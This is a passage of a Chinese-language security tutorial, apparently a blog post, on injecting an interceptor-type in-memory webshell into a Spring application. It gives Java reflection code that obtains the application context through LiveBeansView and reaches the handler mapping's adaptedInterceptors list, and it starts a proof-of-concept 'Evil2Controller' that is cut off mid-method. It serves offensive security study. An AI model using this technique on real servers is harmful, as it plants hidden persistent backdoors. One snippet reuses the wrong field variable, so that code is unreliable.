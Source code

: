 ![image.png](https://cdn.nlark.com/yuque/0/2024/png/36078896/1709792780416-1aca7c8b-3079-4531-bb4e-cd380d893af1.png#averageHue=%233e444c&clientId=u8df47c52-911f-4&from=paste&height=86&id=u69fbac18&originHeight=142&originWidth=1127&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=63852&status=done&style=none&taskId=udb9cefcd-bf9d-417a-94ce-566447fd9e1&title=&width=683.030263552217)
根据刚才调用栈和流程分析不难看出，其实 spring 这一层是要优先级低于 tomcat 的，因为毕竟其核心分配器`dispatchServlet`也属于是 servlet，肯定要执行的比 filter 
整合一下大概的流程
```java
HttpRequest --> Filter --> DispactherServlet --> Interceptor --> Controller
```

## 0x03 interceptor 内存马的实现流程
上面的流程分析其实只是在走 interceptor 被注册完之后走的流程，也就是 interceptor 如何执行的，我们注入 interceptor 内存马就必须直到 interceptor 如何先注册到 `adaptedInterceptors`中
既然是 Spring 型，那所有的想取到的类我们都能通过 IOC 容器去取，这里首先要明确目标，我们要找的是谁？---->根据刚才的流程分析，我们刚才添加的每一个 interceptor 都是从`adaptedInterceptors`属性值中取的，所以我们待会要获取的就是 `adaptedInterceptors`的所属对象---`AbstractHandlerMapping`

### 1x01 获取`AbstractHandlerMapping`
这里前提是已经了解过上面所述的 4 种获取上下文 context 的方法了，我们还学习一种新的获取的方法--- 通过反射获取`LiveBeansView`类  的 applicationContext 来获取，当然其他四种方法也是可以的
```java
//通过LiveBeansView获取WebContext
Field field=Class.forName("org.springframework.context.support.LiveBeansView").getDeclaredField("applicationContexts");
field.setAccessible(true);
WebApplicationContext applicationContext=(org.springframework.web.context.WebApplicationContext) ((java.util.LinkedHashSet)field.get(null)).iterator().next();
```

然后就是根据 IOC 容器得到 `AbstractHandlerMapping`
```java
//通过IOC容器get到AbstractHandlerMapping
AbstractHandlerMapping handlerMapping=applicationContext.getBean("requestMappingHandlerMapping", AbstractHandlerMapping.class);
```

### 1x02 动态注册 interceptor
```java
Field field1=AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
field1.setAccessible(true);
ArrayList<Object> adtedinterceptors =(ArrayList<Object>)field.get(handlerMapping);
```

### 1x03 完整 POC 
```java
import com.stoocea.Interceptor.TestInterceptor;
import org.junit.Test;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.context.ContextLoader;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;

import java.lang.reflect.Field;
import java.util.ArrayList;


//这里是测试interceptor类型memshell的POC，恶意interceptor在interceptor包中
@Controller
public class Evil2Controller {


    @GetMapping("/evil2")
    @ResponseBody
    public String getEvilInterceptor() throws Exception{

```